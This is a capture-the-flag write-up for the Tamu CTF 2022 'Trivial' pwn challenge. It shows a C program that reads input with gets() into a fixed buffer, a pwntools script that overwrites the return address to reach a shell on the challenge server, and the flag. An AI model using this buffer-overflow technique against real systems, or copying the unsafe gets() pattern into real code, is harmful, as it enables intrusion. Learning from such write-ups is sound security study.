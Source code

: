 ```yaml
---
title: "[Pwn] Trivial [Tamu CTF 2022]"
date: 2022-04-17 16:20:00
---
```


# 0x0 Introduction

Author: nhwn

Feeling lucky? I have just the challenge for you :D

SNI: lucky

files: [trivial](trivial), [trival.c](trivial.c)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerability

Very trivial buffer overflow in main. Overwrite rip to function win to get a shell

```
void main() {
    char buff[69];

    gets(buff);
}
```

# 0x3 Exploit

```
from pwn import *

context.binary = ELF("trivial")

p = remote("tamuctf.com", 443, ssl=True, sni="trivial")
p.sendline(flat({
    0x50+0x8:[
        0x00401132
    ]
}))
p.interactive()
```

# 0x4 Flag

gigem{sorry_for_using_the_word_trivial}
